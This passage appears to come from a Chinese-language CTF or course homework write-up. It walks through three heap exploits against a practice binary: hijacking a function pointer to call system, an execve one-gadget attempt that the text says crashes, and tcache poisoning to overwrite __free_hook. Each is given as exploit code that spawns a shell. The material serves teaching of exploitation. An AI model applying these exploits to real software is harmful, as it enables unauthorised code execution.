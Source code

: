 #### Exploit 1：劫持 `bark` Function Ptr 成 `system`

因為 Tcache Chain 的運作機制，經過剛剛兩次 Free 後 `0x30` 的 Chain 中有兩塊已經被釋放的 `Animal` Memory Chunk。但是因為所有 Ptr 都還存在 `animals` 中，所以可以透過 `0x30` 大小的 `name` 剛好跟 `animals[0]` 是同一塊記憶體的行為，去 Hijack `animals[0]` 的 `bark` Function Ptr 成 `system` 後 Get Shell：

```python
buy(1, 0x28, b'/bin/sh\x00' + b'A'*0x8 + p64(0xdeadbeef) + p64(0xdeadbeef) + p64(_system))
# 3. get shell
play(0)
```

#### Exploit 2：劫持 `bark` Function Ptr 成 `execve` one gadget

跟上一題類似，只是這次要嘗試使用 `execve` 的 OneGadget 達成 Get Shell：

```txt
root@92a870dfedbf:/tmp/code/HW-final# one_gadget /lib/x86_64-linux-gnu/libc.so.6
0xe6c7e execve("/bin/sh", r15, r12)
constraints:
  [r15] == NULL || r15 == NULL
  [r12] == NULL || r12 == NULL

0xe6c81 execve("/bin/sh", r15, rdx)
constraints:
  [r15] == NULL || r15 == NULL
  [rdx] == NULL || rdx == NULL

0xe6c84 execve("/bin/sh", rsi, rdx)
constraints:
  [rsi] == NULL || rsi == NULL
  [rdx] == NULL || rdx == NULL
```

```python
buy(1, 0x28, b'A'*0x10 + p64(0x10000) + p64(heap + 0xbe0) + p64(0xdeadbeef))
buy(1, 0x10, 'dummy')
change(0, 0xffffffff, p64(heap+0x100) + p64(0) + p64(0xdeadbeef) + p64(heap+0x100) + p64(one_shot), False)
play(1)
```

但因為 `rdx` 沒辦法完全吻合，所以最後會 Crash 掉。

#### Exploit 3：劫持 `__free_hook` 成 `system`

這個 Exploit 作法就比較 General 了，不像上兩個還仰賴 struct 中要有我們可控的 Function Ptr。這邊有好幾種方法可以達到改寫 `__free_hook` 的目的，但原理都還是圍繞在 Tcache Poisoning 以及精準控制 `malloc` 的分配順序。

助教這邊的 Exploit 原理，是透過修改 Tcache Chain 中 `0x30` bin 的順序，達成 `__free_hook` Hijack 的同時，也順便把等等 `free` 所需要的 Parameter (`/bin/sh`) 也一起設定好，最後只要呼叫 `release` 後就可以 Get Shell：

```python
buy(1, 0x28, b'A'*0x10 + p64(0x10000) + p64(heap + 0xbe0) + p64(0xdeadbeef))
buy(1, 0x10, 'dummy')
release(1)
change(0, 0xffffffff, b'A'*0x10 + p64(0xdeadbeef) + p64(heap + 0xb90), False)
release(1)
change(0, 0xffffffff, p64(__free_hook - 8), False)
buy(1, 0x28, b'/bin/sh\x00' + p64(_system))
release(1)
```
